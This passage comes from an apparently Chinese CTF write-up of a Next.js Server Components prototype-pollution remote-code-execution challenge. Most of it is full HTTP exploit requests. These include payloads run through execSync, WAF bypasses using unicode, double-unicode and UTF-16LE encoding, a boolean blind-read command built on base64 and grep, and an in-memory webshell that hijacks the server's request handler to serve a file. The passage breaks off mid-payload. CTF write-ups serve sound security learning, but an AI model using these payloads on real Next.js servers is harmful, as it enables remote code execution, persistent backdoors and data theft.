\u0064\u005c\u0075\u0030\u0030\u0036\u0034\u005c\u0075\u0030\u0030\u0032\u0030\u005c\u0075\u0030\u0030\u0037\u0063\u005c\u0075\u0030\u0030\u0032\u0030\u005c\u0075\u0030\u0030\u0037\u0033\u005c\u0075\u0030\u0030\u0036\u0038\u005c\u0075\u0030\u0030\u0032\u0037\u005c\u0075\u0030\u0030\u0032\u0039\u005c\u0075\u0030\u0030\u0032\u0065\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0036\u0066\u005c\u0075\u0030\u0030\u0035\u0033\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0036\u0039\u005c\u0075\u0030\u0030\u0036\u0065\u005c\u0075\u0030\u0030\u0036\u0037\u005c\u0075\u0030\u0030\u0032\u0038\u005c\u0075\u0030\u0030\u0032\u0037\u005c\u0075\u0030\u0030\u0037\u0035\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0036\u0036\u005c\u0075\u0030\u0030\u0033\u0038\u005c\u0075\u0030\u0030\u0032\u0037\u005c\u0075\u0030\u0030\u0032\u0039\u005c\u0075\u0030\u0030\u0032\u0065\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0036\u0039\u005c\u0075\u0030\u0030\u0036\u0064\u005c\u0075\u0030\u0030\u0032\u0038\u005c\u0075\u0030\u0030\u0032\u0039\u005c\u0075\u0030\u0030\u0033\u0062\u005c\u0075\u0030\u0030\u0033\u0062\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0036\u0038\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0036\u0066\u005c\u0075\u0030\u0030\u0037\u0037\u005c\u0075\u0030\u0030\u0032\u0030\u005c\u0075\u0030\u0030\u0034\u0066\u005c\u0075\u0030\u0030\u0036\u0032\u005c\u0075\u0030\u0030\u0036\u0061\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0036\u0033\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0032\u0065\u005c\u0075\u0030\u0030\u0036\u0031\u005c\u0075\u0030\u0030\u0037\u0033\u005c\u0075\u0030\u0030\u0037\u0033\u005c\u0075\u0030\u0030\u0036\u0039\u005c\u0075\u0030\u0030\u0036\u0037\u005c\u0075\u0030\u0030\u0036\u0065\u005c\u0075\u0030\u0030\u0032\u0038\u005c\u0075\u0030\u0030\u0036\u0065\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0037\u0037\u005c\u0075\u0030\u0030\u0032\u0030\u005c\u0075\u0030\u0030\u0034\u0035\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0036\u0066\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0032\u0038\u005c\u0075\u0030\u0030\u0032\u0037\u005c\u0075\u0030\u0030\u0034\u0065\u005c\u0075\u0030\u0030\u0034\u0035\u005c\u0075\u0030\u0030\u0035\u0038\u005c\u0075\u0030\u0030\u0035\u0034\u005c\u0075\u0030\u0030\u0035\u0066\u005c\u0075\u0030\u0030\u0035\u0032\u005c\u0075\u0030\u0030\u0034\u0035\u005c\u0075\u0030\u0030\u0034\u0034\u005c\u0075\u0030\u0030\u0034\u0039\u005c\u0075\u0030\u0030\u0035\u0032\u005c\u0075\u0030\u0030\u0034\u0035\u005c\u0075\u0030\u0030\u0034\u0033\u005c\u0075\u0030\u0030\u0035\u0034\u005c\u0075\u0030\u0030\u0032\u0037\u005c\u0075\u0030\u0030\u0032\u0039\u005c\u0075\u0030\u0030\u0032\u0063\u005c\u0075\u0030\u0030\u0037\u0062\u005c\u0075\u0030\u0030\u0036\u0034\u005c\u0075\u0030\u0030\u0036\u0039\u005c\u0075\u0030\u0030\u0036\u0037\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0037\u0033\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0033\u0061\u005c\u0075\u0030\u0030\u0032\u0030\u005c\u0075\u0030\u0030\u0036\u0030\u005c\u0075\u0030\u0030\u0034\u0065\u005c\u0075\u0030\u0030\u0034\u0035\u005c\u0075\u0030\u0030\u0035\u0038\u005c\u0075\u0030\u0030\u0035\u0034\u005c\u0075\u0030\u0030\u0035\u0066\u005c\u0075\u0030\u0030\u0035\u0032\u005c\u0075\u0030\u0030\u0034\u0035\u005c\u0075\u0030\u0030\u0034\u0034\u005c\u0075\u0030\u0030\u0034\u0039\u005c\u0075\u0030\u0030\u0035\u0032\u005c\u0075\u0030\u0030\u0034\u0035\u005c\u0075\u0030\u0030\u0034\u0033\u005c\u0075\u0030\u0030\u0035\u0034\u005c\u0075\u0030\u0030\u0033\u0062\u005c\u0075\u0030\u0030\u0037\u0030\u005c\u0075\u0030\u0030\u0037\u0035\u005c\u0075\u0030\u0030\u0037\u0033\u005c\u0075\u0030\u0030\u0036\u0038\u005c\u0075\u0030\u0030\u0033\u0062\u005c\u0075\u0030\u0030\u0032\u0066\u005c\u0075\u0030\u0030\u0036\u0063\u005c\u0075\u0030\u0030\u0036\u0066\u005c\u0075\u0030\u0030\u0036\u0037\u005c\u0075\u0030\u0030\u0036\u0039\u005c\u0075\u0030\u0030\u0036\u0065\u005c\u0075\u0030\u0030\u0033\u0066\u005c\u0075\u0030\u0030\u0036\u0031\u005c\u0075\u0030\u0030\u0033\u0064\u005c\u0075\u0030\u0030\u0032\u0034\u005c\u0075\u0030\u0030\u0037\u0062\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0037\u0033\u005c\u0075\u0030\u0030\u0037\u0064\u005c\u0075\u0030\u0030\u0033\u0062\u005c\u0075\u0030\u0030\u0033\u0033\u005c\u0075\u0030\u0030\u0033\u0030\u005c\u0075\u0030\u0030\u0033\u0037\u005c\u0075\u0030\u0030\u0033\u0062\u005c\u0075\u0030\u0030\u0036\u0030\u005c\u0075\u0030\u0030\u0037\u0064\u005c\u0075\u0030\u0030\u0032\u0039\u005c\u0075\u0030\u0030\u0033\u0062\u0022\u002c\u000a\u0020\u0020\u0020\u0020\u0022\u005c\u0075\u0030\u0030\u0035\u0066\u005c\u0075\u0030\u0030\u0036\u0033\u005c\u0075\u0030\u0030\u0036\u0038\u005c\u0075\u0030\u0030\u0037\u0035\u005c\u0075\u0030\u0030\u0036\u0065\u005c\u0075\u0030\u0030\u0036\u0062\u005c\u0075\u0030\u0030\u0037\u0033\u0022\u003a\u0020\u0022\u005c\u0075\u0030\u0030\u0032\u0034\u005c\u0075\u0030\u0030\u0035\u0031\u005c\u0075\u0030\u0030\u0033\u0032\u0022\u002c\u000a\u0020\u0020\u0020\u0020\u0022\u005c\u0075\u0030\u0030\u0035\u0066\u005c\u0075\u0030\u0030\u0036\u0036\u005c\u0075\u0030\u0030\u0036\u0066\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0036\u0064\u005c\u0075\u0030\u0030\u0034\u0034\u005c\u0075\u0030\u0030\u0036\u0031\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0036\u0031\u0022\u003a\u0020\u007b\u000a\u0020\u0020\u0020\u0020\u0020\u0020\u0022\u0067\u0065\u0074\u0022\u003a\u0020\u0022\u005c\u0075\u0030\u0030\u0032\u0034\u005c\u0075\u0030\u0030\u0033\u0031\u005c\u0075\u0030\u0030\u0033\u0061\u005c\u0075\u0030\u0030\u0036\u0033\u005c\u0075\u0030\u0030\u0036\u0066\u005c\u0075\u0030\u0030\u0036\u0065\u005c\u0075\u0030\u0030\u0037\u0033\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0037\u0035\u005c\u0075\u0030\u0030\u0036\u0033\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0036\u0066\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0033\u0061\u005c\u0075\u0030\u0030\u0036\u0033\u005c\u0075\u0030\u0030\u0036\u0066\u005c\u0075\u0030\u0030\u0036\u0065\u005c\u0075\u0030\u0030\u0037\u0033\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0037\u0035\u005c\u0075\u0030\u0030\u0036\u0033\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0036\u0066\u005c\u0075\u0030\u0030\u0037\u0032\u0022\u000a\u0020\u0020\u0020\u0020\u007d\u000a\u0020\u0020\u007d\u000a\u007d
------mioqwq
Content-Disposition: form-data; name="1"

"\u0024\u0040\u0030"
------mioqwq
Content-Disposition: form-data; name="2"

[]
------mioqwq--
```

或者UTF-16LE编码绕过

```http
POST / HTTP/1.1
Host: nc1.ctfplus.cn:45163
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.113 Safari/537.36 Assetnote/1.0.0
Content-Type: multipart/form-data; boundary=----mioqwq
X-Nextjs-Request-Id: qwq
X-Nextjs-Html-Request-Id: qwq
Cookie: waf_num_token1=101; waf_num_token2=10093
Next-Action: x
Content-Length: 565

------mioqwq
Content-Disposition: form-data; name="0"
Content-Type: text/plain; charset=utf16le

{{hexd(7B000A002000200022007400680065006E0022003A0020002200240031003A005F005F00700072006F0074006F005F005F003A007400680065006E0022002C000A0020002000220073007400610074007500730022003A00200022007200650073006F006C007600650064005F006D006F00640065006C0022002C000A0020002000220072006500610073006F006E0022003A0020002D0031002C000A00200020002200760061006C007500650022003A00200022007B005C0022007400680065006E005C0022003A005C0022002400420031005C0022007D0022002C000A002000200022005F0072006500730070006F006E007300650022003A0020007B000A00200020002000200022005F0070007200650066006900780022003A002000220076006100720020007200650073003D00700072006F0063006500730073002E006D00610069006E004D006F00640075006C0065002E007200650071007500690072006500280027006300680069006C0064005F00700072006F006300650073007300270029002E006500780065006300530079006E006300280027006500630068006F002000550031005200420052003000550039004A004300680074006100330052006C0062005800410067004C005700510067004C00330052007400630043003900740061005700390066005A00580068007700620047003900700064004300350059005700460068005900570046006700700043006D004E006B004900430049006B00650031004E005500510055006400460050003300300069004900480078003800490047005600340061005800510067004D00510070006A0059005800510067005000690042007400610057003800750059007A00770038005200550039004700430069004E00700062006D004E0073006400570052006C004900440078007A00640047005200730061005700490075006100440034004B00490032006C00750059003200780031005A004700550067005000480056007500610058004E0030005A00430035006F0050006700700066005800320046003000640048004A00700059006E00560030005A005600390066004B00430068006A006200320035007A00640048004A0031005900330052007600630069006B007000490048005A0076006100570051006700620057006C007600580032006C0075006100580051006F0064006D00390070005A0043006B006700650077006F0067004900430041006700630032005600300063006D00560031006100570051006F004D004300770077004B00540073004B004900430041006700490048004E006C00640048004A006C005A0032006C006B004B004400410073004D0043006B00370043006900410067004900430042006A00610047005200700063006900670069004C007900490070004F0077006F00670049004300410067005A00580068006C005900320077006F004900690039006900610057003400760063003200670069004C0043004100690063003200670069004C004300410069004C0057004D0069004C0043004100690059003200460030004900430039006D006200470046006E0049004400340067004C003300520074006300430039006D006200470046006E004900430049007300490045003500560054004500770070004F0077007000390043006B00560050005200670070007400610032005200700063006900410074006300430042007400610057003900660063006D00390076006400430039006C00640047004D006700620047006C00690062006E004E007A005800770070006C005900320068007600490043004A007700590058004E007A006400320051003600490043003900740061005700380069004900440034006700620057006C007600580033004A00760062003300510076005A00580052006A004C00320035007A006300330064007000640047004E006F004C006D004E00760062006D0059004B005A0032004E006A004900430031007A0061004700460079005A005700510067004C0057005A005100530055004D0067004C005600640073004C0043003100700062006D006C0030004C00470031007000620031003900700062006D006C0030004900430031007600490047007800700059006D0035007A006300310038007600620057006C0076004C006E004E0076004C006A0049006700620057006C0076004C006D004D0067005000690039006B005A0058005900760062006E00560073006200430041007900500069005900780043006E004E0031005A004700380067004C00560049006700620057006C007600580033004A0076006200330051006700620048004D00670020007C00200062006100730065003600340020002D00640020007C00200073006800270029002E0074006F0053007400720069006E006700280027007500740066003800270029002E007400720069006D00280029003B003B007400680072006F00770020004F0062006A006500630074002E00610073007300690067006E0028006E006500770020004500720072006F007200280027004E004500580054005F0052004500440049005200450043005400270029002C007B006400690067006500730074003A00200060004E004500580054005F00520045004400490052004500430054003B0070007500730068003B002F006C006F00670069006E003F0061003D0024007B007200650073007D003B003300300037003B0060007D0029003B0022002C000A00200020002000200022005F006300680075006E006B00730022003A002000220024005100320022002C000A00200020002000200022005F0066006F0072006D00440061007400610022003A0020007B000A00200020002000200020002000220067006500740022003A0020002200240031003A0063006F006E007300740072007500630074006F0072003A0063006F006E007300740072007500630074006F00720022000A0020002000200020007D000A00200020007D000A007D00)}}
------mioqwq
Content-Disposition: form-data; name="1"

"$@0"
------mioqwq
Content-Disposition: form-data; name="2"

[]
------mioqwq--

```

然后现在/flag就被完整的写入到了node用户可读的/tmp/flag了

## 4.其他获取flag的方法
前文2.WAF绕过部分已经探讨过获取flag的多种可能,这里仅提供

**布尔盲注 **的思路

以及

**对根目录劫持并回显特定文件的内存马**

的讲解,及实现,其他方法不再赘述.

### **布尔盲注**
进行前文3.提权 部分的操作后的flag已经被root用户 读取并写入到/tmp/flag

首先是本题对POST请求的回显进行了及其严格的截断,

除500以外的状态码的响应WAF都会直接截断并且一点都不会返回

但是如果造成next.js应用返回500状态码,WAF会仅返回这个状态码

如果可以在读取文件时,进行判断对比,如果该文件的内容base64后的值的某一个字符

与预设的值**相同**,就试图回显一个任意值,回显会被waf截断,会返回403

如果与预设的值**不同**,就使服务器出错,会返回500

base64处理后出现的字符类型是有限的,这样一个一个的对比,

理论上就可以读取出**所有可读取的文件**的全部内容.

任何让服务器返回500?

很简单,就拿前面的示例payload举例

```http
POST / HTTP/1.1
Host: localhost:3000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.113 Safari/537.36 Assetnote/1.0.0
Content-Type: multipart/form-data; boundary=----mioqwq
X-Nextjs-Request-Id: qwq
X-Nextjs-Html-Request-Id: qwq
Next-Action: x
Content-Length: 565

------mioqwq
Content-Disposition: form-data; name="0"

{
  "then": "$1:__proto__:then",
  "status": "resolved_model",
  "reason": -1,
  "value": "{\"then\":\"$B1\"}",
  "_response": {
    "_prefix": "var res=process.mainModule.require('child_process').execSync('id').toString('utf8').trim();;throw Object.assign(new Error('NEXT_REDIRECT'),{digest: `NEXT_REDIRECT;push;/login?a=${res};307;`});",
    "_chunks": "$Q2",
    "_formData": {
      "get": "$1:constructor:constructor"
    }
  }
}
------mioqwq
Content-Disposition: form-data; name="1"

"$@0"
------mioqwq
Content-Disposition: form-data; name="2"

[]
------mioqwq--

```

.execSync('')中的内容是要执行到shell的命令,该payload本来的回显是通过**重定向**来实现的

一旦执行的shell命令的回显带有**非法HTTP头字符**例如换行符,服务器就会出错,就会回显500

所以现在的任务就是,让/tmp/flag被base64编码后的值的第某个字符与预设的字符进行比对,

如果相同就执行一个不会回显**非法HTTP头字符**的shell命令,如果不同就执行一个会回显

**非法HTTP头字符**的shell命令(或者不执行命令,不产生回显),然后很简单,ls / 就会回显**非法HTTP头字符**,

所以,现在目标很明确了目标变成了

写一串很短的命令,如果/tmp/flag base64后的第n个字母不是<Base64字符集的某个指定字符>就输出ls /的值

这样理论上可以得到所有文本的内容

示例命令如

```bash
base64 /tmp/flag|head -c1|grep -q a||ls /
```

然后就是要编写脚本来逐个比对,

这里因为有JavaScript质询,就需要来对payload的绕过格式清楚,

并且在JavaScript质询下发challenge的时候来自动运算并写入cookie

JavaScript质询详细在2.WAF绕过部分.

### **对根目录劫持并回显特定文件的内存马**
本是非预期但是这是这道题因为种种BUG返工重做降低了3次难度后的最简单解(~~呜呜呜~~)

这里会给出具体解法

(如果上述获取shell的内存马就可以直接cat /tmp/flag了,不用运行这步.)

因为上述提权时已经将flag写入到了/tmp/flag

这里再给一种只读取/tmp/flag并回显到网站根目录的内存马

构造payload

```http
POST / HTTP/1.1
Host: localhost:3000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.113 Safari/537.36 Assetnote/1.0.0
Content-Type: multipart/form-data; boundary=----mioqwq
X-Nextjs-Request-Id: qwq
X-Nextjs-Html-Request-Id: qwq
Next-Action: x
Content-Length: 565

------mioqwq
Content-Disposition: form-data; name="0"

{
  "then": "$1:__proto__:then",
  "status": "resolved_model",
  "reason": -1,
  "value": "{\"then\":\"$B1337\"}",
  "_response": {
    "_prefix": "(async()=>{const http=await import('node:http');const url=await import('node:url');const fs=await import('node:fs').catch(()=>require('fs'));const originalEmit=http.Server.prototype.emit;http.Server.prototype.emit=function(event,...args){if(event==='request'){const[req,res]=args;const parsedUrl=url.parse(req.url,true);if(parsedUrl.pathname==='/'){try{const flag=fs.readFileSync('/tmp/flag','utf8');res.writeHead(200,{'Content-Type':'text/plain'});res.end(flag);}catch(err){res.writeHead(500,{'Content-Type':'application/json'});res.end(JSON.stringify({error:err.message}));}return true;}}return originalEmit.apply(this,arguments);};})();",
    "_chunks": "$Q2",
    "_formData": {
      "get": "$1:constructor:constructor"
    }
  }
}
------mioqwq
Content-Disposition: form-data; name="1"

"$@0"
------mioqwq
Content-Disposition: form-data; name="2"

[]
------mioqwq--

```

访问根目录/时会读取并返回/tmp/flag内容

进行Unicode编码

```http
POST / HTTP/1.1
Host: localhost:3000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.113 Safari/537.36 Assetnote/1.0.0
Content-Type: multipart/form-data; boundary=----mioqwq
X-Nextjs-Request-Id: qwq
X-Nextjs-Html-Request-Id: qwq
Next-Action: x
Content-Length: 565

------mioqwq
Content-Disposition: form-data; name="0"

{
  "\u0074\u0068\u0065\u006e": "\u0024\u0031\u003a\u005f\u005f\u0070\u0072\u006f\u0074\u006f\u005f\u005f\u003a\u0074\u0068\u0065\u006e",
  "\u0073\u0074\u0061\u0074\u0075\u0073": "\u0072\u0065\u0073\u006f\u006c\u0076\u0065\u0064\u005f\u006d\u006f\u0064\u0065\u006c",
  "\u0072\u0065\u0061\u0073\u006f\u006e": -1,
  "\u0076\u0061\u006c\u0075\u0065": "{\"\u0074\u0068\u0065\u006e\":\"$B1337\"}",
  "\u005f\u0072\u0065\u0073\u0070\u006f\u006e\u0073\u0065": {
    "\u005f\u0070\u0072\u0065\u0066\u0069\u0078": "\u0028\u0061\u0073\u0079\u006e\u0063\u0028\u0029\u003d\u003e\u007b\u0063\u006f\u006e\u0073\u0074\u0020\u0068\u0074\u0074\u0070\u003d\u0061\u0077\u0061\u0069\u0074\u0020\u0069\u006d\u0070\u006f\u0072\u0074\u0028\u0027\u006e\u006f\u0064\u0065\u003a\u0068\u0074\u0074\u0070\u0027\u0029\u003b\u0063\u006f\u006e\u0073\u0074\u0020\u0075\u0072\u006c\u003d\u0061\u0077\u0061\u0069\u0074\u0020\u0069\u006d\u0070\u006f\u0072\u0074\u0028\u0027\u006e\u006f\u0064\u0065\u003a\u0075\u0072\u006c\u0027\u0029\u003b\u0063\u006f\u006e\u0073\u0074\u0020\u0066\u0073\u003d\u0061\u0077\u0061\u0069\u0074\u0020\u0069\u006d\u0070\u006f\u0072\u0074\u0028\u0027\u006e\u006f\u0064\u0065\u003a\u0066\u0073\u0027\u0029\u002e\u0063\u0061\u0074\u0063\u0068\u0028\u0028\u0029\u003d\u003e\u0072\u0065\u0071\u0075\u0069\u0072\u0065\u0028\u0027\u0066\u0073\u0027\u0029\u0029\u003b\u0063\u006f\u006e\u0073\u0074\u0020\u006f\u0072\u0069\u0067\u0069\u006e\u0061\u006c\u0045\u006d\u0069\u0074\u003d\u0068\u0074\u0074\u0070\u002e\u0053\u0065\u0072\u0076\u0065\u0072\u002e\u0070\u0072\u006f\u0074\u006f\u0074\u0079\u0070\u0065\u002e\u0065\u006d\u0069\u0074\u003b\u0068\u0074\u0074\u0070\u002e\u0053\u0065\u0072\u0076\u0065\u0072\u002e\u0070\u0072\u006f\u0074\u006f\u0074\u0079\u0070\u0065\u002e\u0065\u006d\u0069\u0074\u003d\u0066\u0075\u006e\u0063\u0074\u0069\u006f\u006e\u0028\u0065\u0076\u0065\u006e\u0074\u002c\u002e\u002e\u002e\u0061\u0072\u0067\u0073\u0029\u007b\u0069\u0066\u0028\u0065\u0076\u0065\u006e\u0074\u003d\u003d\u003d\u0027\u0072\u0065\u0071\u0075\u0065\u0073\u0074\u0027\u0029\u007b\u0063\u006f\u006e\u0073\u0074\u005b\u0072\u0065\u0071\u002c\u0072\u0065\u0073\u005d\u003d\u0061\u0072\u0067\u0073\u003b\u0063\u006f\u006e\u0073\u0074\u0020\u0070\u0061\u0072\u0073\u0065\u0064\u0055\u0072\u006c\u003d\u0075\u0072\u006c\u002e\u0070\u0061\u0072\u0073\u0065\u0028\u0072\u0065\u0071\u002e\u0075\u0072\u006c\u002c\u0074\u0072\u0075\u0065\u0029\u003b\u0069\u0066\u0028\u0070\u0061\u0072\u0073\u0065\u0064\u0055\u0072\u006c\u002e\u0070\u0061\u0074\u0068\u006e\u0061\u006d\u0065\u003d\u003d\u003d\u0027\u002f\u0027\u0029\u007b\u0074\u0072\u0079\u007b\u0063\u006f\u006e\u0073\u0074\u0020\u0066\u006c\u0061\u0067\u003d\u0066\u0073\u002e\u0072\u0065\u0061\u0064\u0046\u0069\u006c\u0065\u0053\u0079\u006e\u0063\u0028\u0027\u002f\u0074\u006d\u0070\u002f\u0066\u006c\u0061\u0067\u0027\u002c\u0027\u0075\u0074\u0066\u0038\u0027\u0029\u003b\u0072\u0065\u0073\u002e\u0077\u0072\u0069\u0074\u0065\u0048\u0065\u0061\u0064\u0028\u0032\u0030\u0030\u002c\u007b\u0027\u0043\u006f\u006e\u0074\u0065\u006e\u0074\u002d\u0054\u0079\u0070\u0065\u0027\u003a\u0027\u0074\u0065\u0078\u0074\u002f\u0070\u006c\u0061\u0069\u006e\u0027\u007d\u0029\u003b\u0072\u0065\u0073\u002e\u0065\u006e\u0064\u0028\u0066\u006c\u0061\u0067\u0029\u003b\u007d\u0063\u0061\u0074\u0063\u0068\u0028\u0065\u0072\u0072\u0029\u007b\u0072\u0065\u0073\u002e\u0077\u0072\u0069\u0074\u0065\u0048\u0065\u0061\u0064\u0028\u0035\u0030\u0030\u002c\u007b\u0027\u0043\u006f\u006e\u0074\u0065\u006e\u0074\u002d\u0054\u0079\u0070\u0065\u0027\u003a\u0027\u0061\u0070\u0070\u006c\u0069\u0063\u0061\u0074\u0069\u006f\u006e\u002f\u006a\u0073\u006f\u006e\u0027\u007d\u0029\u003b\u0072\u0065\u0073\u002e\u0065\u006e\u0064\u0028\u004a\u0053\u004f\u004e\u002e\u0073\u0074\u0072\u0069\u006e\u0067\u0069\u0066\u0079\u0028\u007b\u0065\u0072\u0072\u006f\u0072\u003a\u0065\u0072\u0072\u002e\u006d\u0065\u0073\u0073\u0061\u0067\u0065\u007d\u0029\u0029\u003b\u007d\u0072\u0065\u0074\u0075\u0072\u006e\u0020\u0074\u0072\u0075\u0065\u003b\u007d\u007d\u0072\u0065\u0074\u0075\u0072\u006e\u0020\u006f\u0072\u0069\u0067\u0069\u006e\u0061\u006c\u0045\u006d\u0069\u0074\u002e\u0061\u0070\u0070\u006c\u0079\u0028\u0074\u0068\u0069\u0073\u002c\u0061\u0072\u0067\u0075\u006d\u0065\u006e\u0074\u0073\u0029\u003b\u007d\u003b\u007d\u0029\u0028\u0029\u003b",
    "\u005f\u0063\u0068\u0075\u006e\u006b\u0073": "\u0024\u0051\u0032",
    "\u005f\u0066\u006f\u0072\u006d\u0044\u0061\u0074\u0061": {
      "get": "\u0024\u0031\u003a\u0063\u006f\u006e\u0073\u0074\u0072\u0075\u0063\u0074\u006f\u0072\u003a\u0063\u006f\u006e\u0073\u0074\u0072\u0075\u0063\u0074\u006f\u0072"
    }
  }
}
------mioqwq
Content-Disposition: form-data; name="1"

"$@0"
------mioqwq
Content-Disposition: form-data; name="2"

[]
------mioqwq--

```

二次编码且手动写入token

```http
POST / HTTP/1.1
Host: nc1.ctfplus.cn:35806
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.113 Safari/537.36 Assetnote/1.0.0
Content-Type: multipart/form-data; boundary=----mioqwq
X-Nextjs-Request-Id: qwq
X-Nextjs-Html-Request-Id: qwq
Next-Action: x
Cookie: waf_num_token1=1319; waf_num_token2=1000037
Content-Length: 565

------mioqwq
Content-Disposition: form-data; name="0"

\u007b\u000a\u0020\u0020\u0022\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0036\u0038\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0036\u0065\u0022\u003a\u0020\u0022\u005c\u0075\u0030\u0030\u0032\u0034\u005c\u0075\u0030\u0030\u0033\u0031\u005c\u0075\u0030\u0030\u0033\u0061\u005c\u0075\u0030\u0030\u0035\u0066\u005c\u0075\u0030\u0030\u0035\u0066\u005c\u0075\u0030\u0030\u0037\u0030\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0036\u0066\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0036\u0066\u005c\u0075\u0030\u0030\u0035\u0066\u005c\u0075\u0030\u0030\u0035\u0066\u005c\u0075\u0030\u0030\u0033\u0061\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0036\u0038\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0036\u0065\u0022\u002c\u000a\u0020\u0020\u0022\u005c\u0075\u0030\u0030\u0037\u0033\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0036\u0031\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0037\u0035\u005c\u0075\u0030\u0030\u0037\u0033\u0022\u003a\u0020\u0022\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0037\u0033\u005c\u0075\u0030\u0030\u0036\u0066\u005c\u0075\u0030\u0030\u0036\u0063\u005c\u0075\u0030\u0030\u0037\u0036\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0036\u0034\u005c\u0075\u0030\u0030\u0035\u0066\u005c\u0075\u0030\u0030\u0036\u0064\u005c\u0075\u0030\u0030\u0036\u0066\u005c\u0075\u0030\u0030\u0036\u0034\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0036\u0063\u0022\u002c\u000a\u0020\u0020\u0022\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0036\u0031\u005c\u0075\u0030\u0030\u0037\u0033\u005c\u0075\u0030\u0030\u0036\u0066\u005c\u0075\u0030\u0030\u0036\u0065\u0022\u003a\u0020\u002d\u0031\u002c\u000a\u0020\u0020\u0022\u005c\u0075\u0030\u0030\u0037\u0036\u005c\u0075\u0030\u0030\u0036\u0031\u005c\u0075\u0030\u0030\u0036\u0063\u005c\u0075\u0030\u0030\u0037\u0035\u005c\u0075\u0030\u0030\u0036\u0035\u0022\u003a\u0020\u0022\u007b\u005c\u0022\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0036\u0038\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0036\u0065\u005c\u0022\u003a\u005c\u0022\u0024\u0042\u0031\u0033\u0033\u0037\u005c\u0022\u007d\u0022\u002c\u000a\u0020\u0020\u0022\u005c\u0075\u0030\u0030\u0035\u0066\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0037\u0033\u005c\u0075\u0030\u0030\u0037\u0030\u005c\u0075\u0030\u0030\u0036\u0066\u005c\u0075\u0030\u0030\u0036\u0065\u005c\u0075\u0030\u0030\u0037\u0033\u005c\u0075\u0030\u0030\u0036\u0035\u0022\u003a\u0020\u007b\u000a\u0020\u0020\u0020\u0020\u0022\u005c\u0075\u0030\u0030\u0035\u0066\u005c\u0075\u0030\u0030\u0037\u0030\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0036\u0036\u005c\u0075\u0030\u0030\u0036\u0039\u005c\u0075\u0030\u0030\u0037\u0038\u0022\u003a\u0020\u0022\u005c\u0075\u0030\u0030\u0032\u0038\u005c\u0075\u0030\u0030\u0036\u0031\u005c\u0075\u0030\u0030\u0037\u0033\u005c\u0075\u0030\u0030\u0037\u0039\u005c\u0075\u0030\u0030\u0036\u0065\u005c\u0075\u0030\u0030\u0036\u0033\u005c\u0075\u0030\u0030\u0032\u0038\u005c\u0075\u0030\u0030\u0032\u0039\u005c\u0075\u0030\u0030\u0033\u0064\u005c\u0075\u0030\u0030\u0033\u0065\u005c\u0075\u0030\u0030\u0037\u0062\u005c\u0075\u0030\u0030\u0036\u0033\u005c\u0075\u0030\u0030\u0036\u0066\u005c\u0075\u0030\u0030\u0036\u0